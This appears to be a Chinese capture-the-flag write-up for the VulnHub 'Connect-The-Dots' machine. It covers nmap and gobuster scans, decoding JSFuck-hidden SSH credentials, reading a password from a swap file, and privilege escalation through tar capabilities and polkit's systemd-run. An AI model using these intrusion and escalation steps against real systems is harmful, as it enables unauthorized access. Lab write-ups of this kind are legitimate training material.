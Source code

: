 ## 靶机信息

级别:容易
下载地址:https://download.vulnhub.com/connectthedots/Connect-The-Dots.ova
- User flag: user.txt
- Root flag: root.txt

## Recon
### nmap
```shell
nmap -sn 192.168.1.0/24
//IP:192.168.1.146

sudo nmap --min-rate 10000 -sT -p- 192.168.1.146 -oA tcp_scan/ports
//Ports:
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
7822/tcp  open  unknown
36079/tcp open  unknown
48701/tcp open  unknown
49591/tcp open  unknown
58011/tcp open  unknown

//对端口信息进行处理
cat tcp_scan/ports.nmap | grep open | awk -F '/' '{print $1}' | tr '\n\r' ','
//端口服务版本扫描
2049/tcp  open  nfs      3-4 (RPC #100003)
7822/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)

//这个靶机nfs服务是兔子洞
```

## Web
![[Pasted image 20231010114425.png]]
```shell
得到用户名 norris
路径 ../../mysite/register.html

```

![[Pasted image 20231010114820.png]]
### 目录爆破
```shell
gobuster dir -u http://192.168.1.146/ -w /usr/share/wordlists/dirb/common.txt -x txt
/hits.txt             (Status: 200) [Size: 44]
```

![[Pasted image 20231010115039.png]]

![[Pasted image 20231010115155.png]]
打开bootstrap.min.cs是一串jsfuck
![[Pasted image 20231010115331.png]]
```shell
// 去掉多余内容，jsfuck.com解码后得到登录凭证
You're smart enough to understand me. Here's your secret, TryToGuessThisNorris@2k19
```
尝试在网页端使用此凭证登录失败，使用ssh登录成功
```shell
ssh norris@192.168.1.146 -p 7822
// passwd:TryToGuessThisNorris@2k19

得到user flag: 2c2836a138c0e7f7529aa0764a6414d0
```

## 提权
```shell
find / -type f -perm -ug=rwx 2>/dev/null //没有找到可以用的文件
在/var/www/html目录下发现了 secretfile .secretfile.swp
下载.secretfile.swp文件到本地  http://192.168.1.146/.secretfile.swp
strings .secretfile.swp 得到密码
 ```
 ![[Pasted image 20231010122712.png]]
 可能是morris的密码
 ```shell
 find / -perm -4000 –type f 2>/dev/null
 // -perm 按权限查找 -4000 有suid权限的
```

## 通过tar得到root flag
```shell
/sbin/getcap -r / 2>/dev/null
```
![[Pasted image 20231010125850.png]]
```shell
tar -zcvf root.tar.gz /root
tar -xzvf root.tar.gz //得到了root文件夹里的内容
root flag:8fc9376d961670ca10be270d52eda423
```

## polkit提权
> 原理: policykit，一个权限管理系统 systemd-run -t /bin/bash 需要高权限才能执行,此时会调用polickit-helper
```shell
find / -type f -perm -u=s 2>/dev/null
# /usr/lib/policykit-1/polkit-agent-helper-1

systemd-run -t /bin/bash (输入密码有时间限制)

root flag:8fc9376d961670ca10be270d52eda423
//
```
